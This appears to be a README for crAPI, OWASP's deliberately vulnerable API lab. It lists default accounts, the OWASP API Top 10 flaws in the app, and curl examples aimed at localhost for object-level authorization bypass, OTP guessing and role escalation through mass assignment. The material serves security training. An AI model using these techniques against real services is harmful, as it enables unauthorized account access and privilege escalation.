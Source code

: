 # crAPI - Completely Ridiculous API

## Description
crAPI (Completely Ridiculous API) is a deliberately vulnerable modern API application built by OWASP. It's designed to demonstrate the OWASP API Security Top 10 vulnerabilities in a microservices architecture.

## Access URLs
- **Main Application**: http://localhost:8888
- **MailHog (Email Interface)**: http://localhost:8025

## Architecture
crAPI consists of multiple microservices:
- **Web Frontend**: React-based UI
- **Identity Service**: User authentication and management
- **Community Service**: Forum and social features
- **Workshop Service**: Vehicle workshop management
- **Database**: PostgreSQL and MongoDB

## Default Users
1. **Regular User**:
   - Email: user@example.com
   - Password: password
   
2. **Mechanic**:
   - Email: mechanic@example.com
   - Password: password

3. **Admin** (if available):
   - Email: admin@example.com
   - Password: password

## Key Vulnerabilities

### API1:2019 - Broken Object Level Authorization (BOLA)
- Access other users' vehicle details
- View other users' mechanic reports
- Location: Vehicle and Mechanic endpoints

### API2:2019 - Broken User Authentication
- Weak password reset mechanism
- JWT implementation flaws
- Location: Login and password reset endpoints

### API3:2019 - Excessive Data Exposure
- User profile endpoint returns sensitive data
- Vehicle reports contain unnecessary information
- Location: /identity/api/v2/user endpoint

### API4:2019 - Lack of Resources & Rate Limiting
- No rate limiting on OTP requests
- Unlimited login attempts
- Location: Authentication endpoints

### API5:2019 - Broken Function Level Authorization
- Access admin functions as regular user
- Delete other users' posts
- Location: Admin panel endpoints

### API6:2019 - Mass Assignment
- Modify user role during registration
- Update vehicle properties not intended for users
- Location: Registration and vehicle endpoints

### API7:2019 - Security Misconfiguration
- Debug mode enabled
- Verbose error messages
- CORS misconfiguration

### API8:2019 - Injection
- SQL Injection in search functionality
- NoSQL injection in community posts
- Location: Search and filter endpoints

### API9:2019 - Improper Assets Management
- Old API versions still accessible
- Undocumented endpoints
- Location: /api/v1/* endpoints

### API10:2019 - Insufficient Logging & Monitoring
- Sensitive actions not logged
- No alerting on suspicious activities

## Exploitation Examples

### 1. BOLA - Access Other Users' Vehicles
```bash
# Get your auth token first
curl -X POST http://localhost:8888/identity/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"user@example.com","password":"password"}'

# Try accessing other vehicle IDs
curl http://localhost:8888/workshop/api/vehicles/1 \
  -H "Authorization: Bearer YOUR_TOKEN"
```

### 2. Broken Authentication - Weak OTP
```bash
# Request password reset
curl -X POST http://localhost:8888/identity/api/auth/forget-password \
  -H "Content-Type: application/json" \
  -d '{"email":"user@example.com"}'

# Try common OTPs: 0000, 1234, etc.
```

### 3. Mass Assignment - Privilege Escalation
```bash
# During registration, try adding role field
curl -X POST http://localhost:8888/identity/api/auth/signup \
  -H "Content-Type: application/json" \
  -d '{
    "name":"Test User",
    "email":"test@example.com",
    "password":"password",
    "role":"ADMIN"
  }'
```

### 4. Excessive Data Exposure
```bash
# Check user profile endpoint
curl http://localhost:8888/identity/api/v2/user \
  -H "Authorization: Bearer YOUR_TOKEN"
# Look for sensitive fields that shouldn't be exposed
```

## Tools for Testing
- **Burp Suite**: Intercept and modify API requests
- **Postman**: API testing with collections
- **OWASP ZAP**: Automated API scanning
- **curl**: Command-line API testing

## Learning Resources
- Review the API documentation (if available)
- Use browser DevTools to inspect API calls
- Check MailHog for password reset tokens
- Look for hidden endpoints in JavaScript source

## Security Best Practices (What This App Lacks)
1. Proper authorization checks on all endpoints
2. Strong authentication mechanisms
3. Rate limiting and throttling
4. Input validation and sanitization
5. Minimal data exposure
6. Proper error handling
7. Comprehensive logging and monitoring

## Tips
- Start by creating a regular user account
- Use browser DevTools Network tab to see API calls
- Check MailHog for all emails sent by the system
- Look for API versioning (v1, v2) in endpoints
- Test both authenticated and unauthenticated access 